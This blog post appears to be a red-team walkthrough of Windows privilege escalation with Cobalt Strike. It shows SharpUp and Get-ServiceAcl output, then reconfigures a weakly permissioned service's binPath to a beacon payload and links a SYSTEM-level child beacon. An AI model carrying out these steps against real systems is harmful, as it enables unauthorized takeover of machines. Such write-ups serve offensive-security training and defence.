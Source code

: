 ```yaml
---
title: "Cobalt strike abuse service for system privileges"
date: "2024-03-14"
layout: post
---
```


This scenario is based upon an assumed compromise with lower privileges and after doing some endpoint recon we find a service that allows us to configure an exe of our choosing.  It's a common technique to look for vulnerable or misconfigured services as they tend to run with higher privileges.  Assuming you get passed EDR with the assumed compromised some of these techniques can be noisy but are TTPs threat actors employ. I'm using Cobalt as my C2 of choice but these techniques can be leveraged with plent of other popular C2 frameworks.


We'll need two listeners for this scenario (http & tcp).  The http listener is tied to the initial compromise and we'll use the beacon_bind_tcp as the second listener which will aid in elevating our privileges.  Below are my settings for both http and tcp listeners with cobalt.

![http](/assets/http.png)

![tcp-local](/assets/tcp-local.png)

Once on the compromised endpoint we can run a tool such as SharpUp to determine any priv esc opportunities.

```bash
[03/02 00:47:24] beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit
[03/02 00:47:25] [*] Tasked beacon to run .NET program: SharpUp.exe audit
[03/02 00:47:25] [+] host called home, sent: 149254 bytes
[03/02 00:47:26] [+] received output:

=== Modifiable Service Binaries ===
	Service 'VulnService1' (State: Running, StartMode: Auto) : C:\Program Files\Vulnerable Services\Service.exe
```

So SharpUp identifed a service where we can modify the service binary but doesn't show exactly what the permissions are so we need to dig a little deeper.  We can leverage a powershell script to see what service rights we have.

```bash
[03/02 01:21:24] beacon> powershell-import C:\Tools\Get-ServiceAcl.ps1
[03/02 01:21:24] [*] Tasked beacon to import: C:\Tools\Get-ServiceAcl.ps1
[03/02 01:21:24] [+] host called home, sent: 2156 bytes
[03/02 01:21:46] beacon> powershell Get-ServiceAcl -Name VulnService | select -expand Access
[03/02 01:21:46] [*] Tasked beacon to run: Get-ServiceAcl -Name VulnService2 | select -expand Access
[03/02 01:21:46] [+] host called home, sent: 425 bytes
[03/02 01:21:50] [+] received output:

ServiceRights     : ChangeConfig, Start, Stop
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\Authenticated Users
```

We can see that all Authenticated Users have ChangeConfig, Start and Stop privileges over this service. We can abuse these weak permissions by changing the binary path of the service.  So instead of it running C:\Program Files\Vulnerable Services\Service.exe we can have it run something like C:\Temp\payload.exe.  If you haven't already go into Cobalt and create the tcp payload that leverages the tcp listener.  Next we'll configure the service to use our payload versus the service executable of the original service.

```bash
beacon> upload C:\Payloads\tcp-local.exe
beacon> run sc config VulnService binPath= C:\Temp\tcp-localexe
beacon> run sc qc VulnService
```

You may need to stop and start the service so keep that in mind.  Once the service is up and running with payload we pointed it too we can then connect to our localhost to hopefully have a beacon with elevated prvileges.

```bash
[03/02 01:36:36] beacon> connect localhost 4444
[03/02 01:36:36] [*] Tasked to connect to localhost:4444
[03/02 01:36:36] [+] host called home, sent: 20 bytes
[03/02 01:36:36] [+] established link to child beacon: 10.10.123.102
```

![system-privs](/assets/system-privs.png)

We can see from the screenshot that we were succesful in obtaing a call back with system privileges.
